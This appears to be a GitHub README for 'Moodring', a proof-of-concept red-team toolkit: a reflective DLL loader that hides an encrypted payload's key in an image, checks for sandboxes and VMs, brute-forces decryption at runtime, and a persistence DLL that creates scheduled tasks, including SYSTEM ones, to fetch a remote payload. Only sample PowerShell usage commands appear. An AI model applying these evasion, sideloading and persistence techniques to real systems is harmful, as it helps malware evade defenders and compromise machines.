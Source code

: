 ## Moodring

PoC reflective DLL loader with encryption, steg and env checks. Decryption key is bruteforced at runtime.

### Cryptorchid - Encrypt and Hide 
Command line Encyrpt/Decrypt tool, can test if the hash can be retrieved and payload decrypted successfully prior to putting it in the pipeline

```powershell
# Skip DNS check, use steganography, and encrypt the dll using AAAA and steg the hash into nogo.png, to created nogo_copy.png
 .\Cryptorchid.exe -nodns -steg AAAA .\calc.dll .\nogo.png

# Check DNS match for google and check for Sandbox VMs, looks for encyrpted 'mod.txt' and nogo_copy.png in the current dir, bruteforce to decrypt and load
# This is to test the loader.
 .\Cryptorchid.exe 8.8.8.8 -antivm -stegload .\nogo_copy.png

 # Pull hash from steg image and decrypt output to view (meant for text/test, will print the contents of dlls)
 .\Cryptorchid.exe -nodns -desteg  .\nogo_copy.png
```

### BrutesyCollins - Decrypts payload from encrypted text file using hash stored in image
Sideloading DLL, bruteforces the payloads decryption and loads target into memory, invoking your desired method. 

TODO: Have this an encyrpoted value we can pull as well from another image, get rid of the text file.

### Taskmasker 
Persister DLL, checks users permissions and creates a task, fetching a remote payload to an AppData directory. If admin, two tasks are created, one to run as SYSTEM. 